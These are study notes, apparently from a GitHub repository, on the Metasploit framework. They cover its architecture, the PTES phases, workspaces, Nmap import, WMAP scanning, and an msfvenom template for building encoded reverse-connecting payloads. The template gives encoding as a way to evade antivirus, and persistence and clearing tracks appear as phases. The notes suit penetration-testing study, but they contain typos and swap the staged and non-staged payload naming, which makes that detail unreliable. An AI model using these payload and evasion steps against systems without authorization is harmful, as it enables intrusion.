


# METASPLOIT

Open source robust penetration testing and exploitatios framework.

Provides infraestructure to automate every stage of the penetration testing. Also used to develop and test exploits.

- Module: code that performs a particular task
- Exploi: code that takes advantage of a specific vuln
- Payload: code delivered to the target by the exploit
- Listener: utility that listens an incoming connection
- Armitage: GUI for metasploit that simplifies discovery, exploitation and post exploitation.

MSF Architecture:



- Exploit: module used to take advantage of vuln
- Payload: code delivered by exploit exucuted in memory.
- Encoder: encode payloads in order to avoid AV detection
- NOPS: ensure stability of payloads
- Auxiliary: additional funcionality like port scanning and enumeration

MSF Payloads:
- Non staged: payload sent as it is `meterpreter/reverse`
- Staged: `meterpreter_reverse`
    - Stager: establish communication and stage payload is downloaded
    - Stage: payload components downloaded

Important location:
- /usr/share/metasploit-framework/modules
- ~/.ms4/modules

## PENETRATION TESTING WITH METASPLOIT

We can adopt PTES methodology as a roadmap with the various phases that make up a penetration test and how Metasploit can be integrated in to each phase.
1. Information gathering: auxiliary modules
2. Enumeration: auxiliary modules
3. Vulnerability scanning: auxiliary modules
4. Exploitation: exploit modules and payloads
5. Post exploitation: meterpreter
    4.1. Priviledge escalation: meterpretes and post exploitation modules
    4.2. Persistance: meterpreter and post exploitation modules
    4.3. Clearing tracks

Load Postgresql before initatiating Metasploit:
```service postgresql start```

### Metasploit variables

### Metasploit workspaces
Workspaces allows us to keep track of hosts, scans and activities
```
workspace -h
workspace <>  ##move to a workspace
workspace -a <>  #create workspaces
workspace -d <>  #delete workspaces
hosts
services
loot
creds
vulns
```

### Metasploit and Nmap 
Nmap helps us with
- Discovering
- Scanning
- Enumeration
To integrate nmap results in metasploit follow these steps:
1. Save nmap output: `-oX <name.xml>`
2. Import results in metasploit: `db_import <path to xml>`

Also you can launch nmap inside metasploit with `db_nmap` command and results will be saved.

### AUXILIARY MODULES

- Scanning
- Fuzzing and information gathering
- Discovery: hosts and ports

`search portscan`

**Methodology**:
1. Discover open ports
2. Exploiting services
3. Pivoting
4. Same in second target

**Msfvenom**: generate and enconde payloads. Two utilities msfpayload and msfenconde. It is used to generate a malicious meterpreter payload and transfer it to the target system.
1. Exploit with a payload the targer
2. Payload is executed on the target and connects back to smf console.
3. Msfconsole sends meterpreter session.
3. Connection between atacker and victim.

```
msfvenom --list encoders
msfvenom --list formats
msfvenom --list payloads
msfvenom -a <architecture> -p <payload> LHOST=<> LPORT=<> -i <how many times payload should be encoded> -e <tecnique> -f exe > <>
```

**Vulnerability scanning**:
- Nessus with db_import
- WMAP
```
load wmap
wmap_sites -a <target>
wmap_sites -l
wmap_targets -t <target>
wmap_targets -l
wmap_run -t  ##vuln scan
wmap_run -e  ##enumeration
wmap_vulns -l
```